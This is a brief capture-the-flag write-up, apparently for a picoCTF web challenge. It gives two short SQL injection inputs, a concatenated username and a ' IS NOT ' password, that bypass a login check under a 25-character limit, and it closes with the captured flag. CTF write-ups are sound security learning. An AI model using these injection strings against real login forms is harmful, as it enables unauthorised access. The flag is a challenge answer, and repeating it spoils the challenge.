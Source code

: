 Same previous method did work
username = ad'||'min
password = ' IS NOT 'a

condition was just to keep both under 25 character and it is already
got flag 

    picoCTF{k3ep_1t_sh0rt_68847fdd50e1430d80990b518fac4edb}
